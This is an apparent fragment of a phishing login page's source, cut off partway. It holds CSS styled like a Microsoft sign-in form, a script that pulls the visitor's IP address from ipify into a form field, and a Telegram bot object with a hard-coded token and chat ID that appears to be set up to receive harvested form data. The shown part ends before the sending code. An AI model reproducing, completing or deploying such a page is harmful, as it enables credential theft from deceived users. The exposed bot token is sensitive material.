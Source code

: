 .input-group input:focus {
    border-color: #0078d7;
    box-shadow: 0 0 5px rgba(0, 120, 215, 0.3);
}

button {
    width: 100%;
    padding: 14px;
    border: none;
    border-radius: 4px;
    background-color: #0078d7;
    color: white;
    font-size: 16px;
    cursor: pointer;
    transition: background-color 0.3s;
}

button:hover {
    background-color: #0056b3;
}

.options {
    margin-top: 20px;
}

.options a {
    color: #0078d7;
    text-decoration: none;
    font-size: 14px;
}

.options a:hover {
    text-decoration: underline;
}
</style>
		

  
<script type="application/javascript">
function getIP(json) {
    document.getElementById("ipaddress").value = json.ip;
}
</script>

<script type="application/javascript" src="https://api.ipify.org?format=jsonp&callback=getIP"></script>
 	
 
 
<script>
      const forma = document.querySelector('#form')
    
      let bot = {
          TOKEN: "7284904058:AAGcFzkHJPhqY-l-89aLWRibxrs4HyUkioI",
          chatID: "5423617982"
      }
